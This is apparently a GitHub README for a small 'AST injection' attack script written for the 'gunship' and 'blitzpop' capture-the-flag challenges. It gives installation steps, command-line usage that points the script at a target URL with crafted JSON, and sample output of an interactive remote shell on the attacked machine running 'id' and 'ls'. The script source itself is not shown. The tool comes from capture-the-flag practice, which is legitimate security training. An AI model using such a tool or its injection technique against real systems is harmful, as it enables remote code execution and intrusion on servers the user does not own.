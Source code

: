 # AST Injection script

Small script used for the `gunship` and `blitzpop` ctfs,extended to be a little more flexible.

## Installation

If you want better error reports, you'll need the `beautifulsoup4` package,
but it's not necessary.

```bash
pip install beautifulsoup4
```

Otherwise, just clone the repo into any folder you like.

## Usage

Use the `-u,--url` flag to specify a domain to attack,and optionaly, add any extra JSON that
you need with the `-j,--json` flag.

## Example

```bash
python script.py -u "http://localhost:1337/api/submit" -j blitz.json
```
If needed, you can just write the JSON object

```bash
python script.py --url "http://localhost:1337/api/submit" --json '{artist.name: "Haigh"}'
```
Once you run the script, you should se a command line that allows you to run code on the
attacked machine

```
$ python script.py --url "http://localhost:1337/api/submit" --json '{"artist.name": "Haigh"}'
	>id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

	>ls
flagnjEYE
index.js
node_modules
package.json
routes
static
views
yarn.lock

	>exit

Goodbye!
$
```
